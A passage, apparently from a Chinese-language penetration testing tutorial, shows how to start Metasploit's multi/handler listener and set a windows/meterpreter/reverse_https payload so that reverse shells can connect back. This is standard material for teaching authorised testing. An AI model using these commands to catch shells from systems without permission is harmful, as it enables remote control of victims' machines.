 ![](img/0b5a5add-062d-46ac-ba3f-905e5e7dcf2c.png)

为了监听传入连接，我们需要使用 Metasploit 中的一个模块：`exploit/multi/handler`。要启动该模块，请使用以下命令：

```
use exploit/multi/handler
```

启动后，导航到`exploit/multi/handler`模块。你需要在这个模块中指定的最重要的内容是有效载荷，使用`set`命令进行设置。要将有效载荷设置为`windows/meterpreter/reverse_https`，请使用以下命令：

```
set PAYLOAD windows/meterpreter/reverse_https
```

如果我们现在运行`show options`命令，我们应该会看到有效载荷已更改为`windows/meterpreter/reverse_https`，如下图所示：
